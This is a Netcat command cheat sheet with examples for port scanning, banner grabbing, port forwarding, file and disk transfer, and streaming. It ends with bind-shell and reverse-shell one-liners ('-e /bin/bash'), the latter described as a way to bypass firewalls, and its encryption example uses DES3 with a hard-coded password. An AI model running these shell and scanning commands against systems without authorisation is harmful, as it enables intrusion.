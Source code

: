 ```yaml
---
title: Netcat
date: 2020-11-25 18:28:43
icon: icon-netcat
background: bg-blue-600
tags: 
    - nc
categories:
    - Command
intro:  This cheat sheet provides various for using Netcat on both Linux and Unix.
---
```


Getting started {.cols-3}
---------------

### Usage

Connect to a host located anywhere

```
nc [options] [host] [port]
```

Listen for incoming connections
```
nc -lp port [host] [port]
```

Arbitrary TCP and UDP connections and listens.



### Option examples {.col-span-2}

| Option | Description                 | Example                                            |
|--------|-----------------------------|----------------------------------------------------|
| `-h`     | nc -h                       | Help                                               |
| `-z`     | nc -z 192.168.1.100 1-100        | Port scan for a host or IP address                 |
| `-v`     | nc -zv 192.168.1.100 1-100     |   Provide verbose output   | 
| `-n`     | nc -zn 192.168.1.100 1-100     | Fast scan by disabling DNS resolution              |
| `-l`     | nc -lp 50                 | TCP server mode                                    |
| `-w`     | nc -w 180 192.168.1.100 8090     | Define timeout value                               |
| `-k`     | nc -kl 8090 | Continue listening after disconnection |
| `-u`     | nc -u 192.168.1.100 8090 | Use UDP instead of TCP |
| `-q`     | nc -q 1 192.168.1.100 8090 | Client stay up after EOF |
| `-4`     | nc -4 -l 8090 | IPv4 only                                          |
| `-6`     | nc -6 -l 8090 | IPv6 only                                          |
{.shortcuts}


Examples {.cols-3}
--------

### Banner grabbing
```
$ nc website.com 80
GET index.html HTTP/1.1
HEAD / HTTP/1.1
```
or
```
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### Port scanning

Scan ports between 21 to 25
```
nc -zvn 192.168.1.1 21-25
```

Scan ports 22, 3306 and 8080
```
nc -zvn 192.168.1.1 22 3306 8080
```


### Proxy and port forwarding
```
nc -lp 8001 -c "nc 127.0.0.1 8000"
```
or
```
nc -l 8001 | nc 127.0.0.1 8000
```
Create a tunnel from one local port to another


### Chat client-server
Server (192.168.1.100)
```
nc -l 8090
```

Client
```
nc 192.168.1.100 8090
```

After this whatever you type on machine B will appear on A and vice-versa.


### Download file

Server (192.168.1.100)
```
nc -l 8090 < file.txt
```

Client
```
nc -n 192.168.1.100 8090 > file.txt
```

Suppose you want to transfer a file “file.txt” from server A to client B.


### Upload file

Server (192.168.1.100)
```
nc -l 8090 > file.txt
```

Client
```
nc 192.168.1.100 8090 < file.txt
```

Suppose you want to transfer a file “file.txt” from client B to server A:


### Directory transfer

Server (192.168.1.100)
```
tar -cvf – dir_name | nc -l 8090
```

Client
```
nc -n 192.168.1.100 8090 | tar -xvf -
```

Suppose you want to transfer a directory over the network from A to B.


### Encrypt transfer {.col-span-2}


Server (192.168.1.100)
```
nc -l 8090 | openssl enc -d -des3 -pass pass:password > file.txt
```

Client
```
openssl enc -des3 -pass pass:password | nc 192.168.1.100 8090
```

Encrypt data before transfering over the network



### Clones

Server (192.168.1.100)
```
dd if=/dev/sda | nc -l 8090
```

Client
```
nc -n 192.168.1.100 8090 | dd of=/dev/sda
```

Cloning a linux PC is very simple. Suppose your system disk is /dev/sda



### Video streaming

Server (192.168.1.100)
```
cat video.avi | nc -l 8090
```

Client
```
nc 192.168.1.100 8090 | mplayer -vo x11 -cache 3000 -
```

Streaming video with netcat




### Remote shell

Server (192.168.1.100)
```
nc -l 8090 -e /bin/bash -i
```

Client
```
nc 192.168.1.100 8090
```

We have used remote Shell using the telnet and ssh but what if they are not installed and we do not have the permission to install them, then we can create remote shell using netcat also.



### Reverse shell

Server (192.168.1.100)
```
nc -l 8090
```

Client
```
nc 192.168.1.100 8090 -e /bin/bash
```

Reverse shells are often used to bypass the firewall restrictions like blocked inbound connections

